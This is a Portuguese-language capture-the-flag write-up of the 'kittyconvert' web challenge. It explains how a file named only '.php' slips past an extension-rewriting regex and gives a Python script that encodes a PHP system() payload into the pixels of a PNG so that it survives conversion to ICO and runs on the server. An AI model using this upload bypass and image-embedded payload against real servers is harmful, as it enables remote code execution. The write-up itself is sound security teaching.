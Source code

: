 # kittyconvert

*Need to convert a file? Our kittens have got you covered!*

- *Web Exploitation*
- *Autor do writeup: [@rebane2001](https://github.com/rebane2001)*

> Você pode acessar os arquivos do desafio no nosso repositório
> <https://github.com/HawkSecUnifei/Writeups>

O desafio disponibiliza um website chamado KittyConvert que permite os usuários converter arquivos PNG para arquivos ICO. Ele também fornece o código-fonte do servidor que carrega o site. O objetivo do desafio é acessar a flag dentro do arquivo `flag.txt` localizado no diretório root do servidor.

## Parte I - Passando pela checagem de extensão
Ao analisar o código-fonte, notamos o trecho de código no arquivo `index.php`: 
``` php
if (isset($_FILES['file'])) {
  $base_dir = "/var/www/html/";
  $ico_file = "uploads/" . preg_replace("/^(.+)\\..+$/", "$1.ico", basename($_FILES["file"]["name"]));
  
  if ($_FILES["file"]["size"] > 8000) {
    echo "<p>Sorry, your file is too large you need to buy Nitro.</p>";
  } else {
    require( dirname( __FILE__ ) . '/class-php-ico.php' );
    $ico_lib = new PHP_ICO( $_FILES["file"]["tmp_name"], array( array( 32, 32 ), array( 64, 64 ) ) );
    $ico_lib->save_ico( $base_dir . $ico_file );
    $success = true;
  }
}
```
A função `preg_replace` nesse código está checando se os arquivos sendo enviados tem alguma extensão. Caso eles tenham, a string `'ico'` é colocada no final do nome do arquivo. Isto apaga a possibilidade de mandar um arquivo `exploit.php` com algum código malicioso e então executá-lo ao requerir o path `/uploads/exploit.php`. No entanto, existe uma alternativa: se o arquivo enviado se chamar apenas `.php`, o código `preg_replace("/^(.+)\\..+$/", "$1.ico", basename($_FILES["file"]["name"]))` não adicionará a extensão `.ico`. Isso ocorre porque a expressão regular exige que haja pelo menos um caractere antes do primeiro ponto (.), o que não é o caso de `.php`.

## Parte II - Construindo o payload
Nós já temos uma parte do problema pronta: como executar código dentro do servidor. Mas nos deparamos com um obstáculo: o conteúdo do arquivo que enviamos é alterado pela classe `PHP_ICO`. Nosso desafio será criar um arquivo PNG que quando sofre as alterações descritas em `class-php-ico.php` gere um código php interessante.
``` python
from PIL import Image

im = Image.new("RGBA", (64,64), "white")
pixels = im.load()
payload = b'<?php    echo   system( "cat /flag.txt" );  ?>  '

for index, el in enumerate(zip(*[iter(payload)]*4)):
    if el[3] % 2 == 1: 
        print(f"Invalid alpha character")
    pixels[(index%64, index//64)] = (el[2],el[1],el[0],el[3])

im.save("exploit.png", "PNG")
```

Já conseguimos explorar uma vulnerabilidade que permite a execução de código dentro do servidor. Entretanto, enfrentamos um novo obstáculo: o conteúdo do arquivo enviado é modificado pela classe `PHP_ICO`.  

Nosso desafio agora é criar um arquivo PNG que, ao sofrer essas alterações pela classe `class-php-ico.php`, gere um código PHP funcional. Para isso, vamos codificar um payload dentro dos pixels da imagem, garantindo que, mesmo após a conversão, ele possa ser interpretado como código PHP executável.  

O código python a seguir cria um arquivo PNG legítimo com tamanho 64 por 64 e preenchido todo com pixels em branco. Em seguida, ele injeta os bytes da variável `payload` nos bytes da imagem. Vale ressaltar que, no formato PNG, as cores seguem o formato RGBA, enquanto que, no formato ICO, as cores seguem o formato BGRA. Por isso a linha de código `(el[2],el[1],el[0],el[3])` invés de `(el[0],el[1],el[2],el[3])`. Além disso, o código também corta o bit menos significativo do campo alpha, nos forçando a deixar somente bytes com o LSB (less significant bit) igual a zero como o valor de alpha. Por essa razão, o payload está formatado dessa maneira.  

Por fim, utilizando esse código para criar um arquivo PNG apropriado e o enviando de acordo o procedimento descrito na parte I, obteremos a flag:
```
x3c{b1tm4p5_4r3_s1mpl3_6u7_7h3_4lph4_1s_w31rd}
```
